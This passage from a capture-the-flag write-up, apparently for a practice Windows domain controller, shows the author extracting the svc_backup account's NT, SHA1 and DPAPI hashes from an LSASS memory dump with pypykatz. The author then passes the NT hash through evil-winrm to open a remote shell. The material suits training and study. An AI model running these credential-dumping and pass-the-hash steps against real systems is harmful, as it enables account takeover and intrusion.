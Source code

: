 There's also a directory of .zip files called `memory-analysis`, and I download those too. In particular, there's a .zip called `lsass.zip` that immediately catches my attention.

```text
fr--r--r--         37876530 Thu May 28 15:29:24 2020    conhost.zip
fr--r--r--         24962333 Thu May 28 15:29:24 2020    ctfmon.zip
fr--r--r--         23993305 Thu May 28 15:29:24 2020    dfsrs.zip
fr--r--r--         18366396 Thu May 28 15:29:24 2020    dllhost.zip
fr--r--r--          8810157 Thu May 28 15:29:24 2020    ismserv.zip
fr--r--r--         41936098 Thu May 28 15:29:24 2020    lsass.zip
fr--r--r--         64288607 Thu May 28 15:29:24 2020    mmc.zip
fr--r--r--         13332174 Thu May 28 15:29:24 2020    RuntimeBroker.zip
fr--r--r--        131983313 Thu May 28 15:29:24 2020    ServerManager.zip
fr--r--r--         33141744 Thu May 28 15:29:24 2020    sihost.zip
fr--r--r--         33756344 Thu May 28 15:29:24 2020    smartscreen.zip
fr--r--r--         14408833 Thu May 28 15:29:24 2020    svchost.zip
fr--r--r--         34631412 Thu May 28 15:29:24 2020    taskhostw.zip
fr--r--r--         14255089 Thu May 28 15:29:24 2020    winlogon.zip
fr--r--r--          4067425 Thu May 28 15:29:24 2020    wlms.zip
fr--r--r--         18303252 Thu May 28 15:29:24 2020    WmiPrvSE.zip
```

I process the `lsass.dmp` file contained in the zip using `pypykatz` which gives me the NT hash for the user `svc-backup`.

```text
== LogonSession ==
authentication_id 406499 (633e3)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406499
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
```

# Initial Access as `svc-backup`

I'm able to authenticate over WinRM by passing `svc-backup`'s NT hash.

```text
❯ evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup
```
